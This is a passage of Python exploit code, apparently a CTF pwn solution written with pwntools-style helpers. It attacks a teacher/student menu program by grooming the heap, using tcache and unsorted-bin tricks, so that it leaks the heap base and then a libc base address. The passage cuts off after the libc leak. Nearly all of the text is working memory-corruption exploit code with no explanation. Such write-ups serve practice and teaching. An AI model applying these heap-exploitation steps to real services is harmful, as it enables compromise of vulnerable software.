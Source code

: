 ```python
    sla("choice>> ",6)
    sla("input your id: ",idx)
    
# leak heap_base
sla("role: <0.teacher/1.student>: ",0)
addstu(1)#0
role(1)
setmode0('ccc')
pray()
role(0)
addstu(1)#1
addstu(1)#2
addstu(1)#3
addstu(1)#4
addstu(1)#5
addstu(1)#6
role(1)
for i in range(1,6):
    setid(i)
    pray()
role(0)
givesc()
for i in range(0,4):
    addcom(i,0x3ff,'ccc')
addcom(4,0x300,'ccc')# 增加一个0x310的tcachebinchunk 后边申请要用
role(1)
check()
p.recvuntil("Good Job! Here is your reward! ")
heap_base=int(p.recvuntil("\n"),16)-0x2a0
lg('heap_base',heap_base)
place = heap_base+0x8e
sa("addr: ",place)#+1

setid(1)
check()
sa("addr: ",place)#+2
setid(2)
check()
sa("addr: ",place)#+3
setid(3)
check()
sa("addr: ",place)#+4
setid(4)
check()
sa("addr: ",place)#+5

role(0)
delstu(1)
delstu(2)
delstu(3)

role(1)
setid(5)
check()
sa("addr: ",heap_base+0x1128)#+3# unsortbin

role(0)
addcom(6,0x3ff,'\x00')
delstu(4)
role(1)
setid(6)
check()
libc_base = uu64()-0x1ECB00
```